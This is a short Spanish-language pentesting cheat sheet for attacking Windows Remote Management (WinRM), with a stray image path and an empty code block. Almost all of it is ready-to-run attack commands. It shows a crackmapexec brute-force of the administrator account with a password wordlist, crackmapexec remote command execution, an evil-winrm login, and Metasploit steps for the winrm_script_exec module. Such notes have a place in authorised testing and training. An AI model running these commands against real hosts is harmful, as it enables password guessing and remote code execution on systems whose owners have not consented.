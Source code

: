 # Crackmapexec

## Fuerza bruta
`crackmapexec winrm 192.168.X.X -u administrator -p /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt`

```java

```

## Ejecución de comandos (RCE)
`crackmapexec winrm 192.168.X.X -u administrator -p password -x "COMANDO"`

# Evil-WinRM

`evil-winrm.rb -u administrator -p 'password' -i 10.10.10.10`

# Metasploit

`search winrm_script`
`use exploit/windows/winrm/winrm_script_exec`
`show options`
`set RHOSTS 10.10.10.10`
`set LHOSTS`
`set FORCE_VBS true`
`set USERNAME administrator`
`set PASSWORD`
`run`
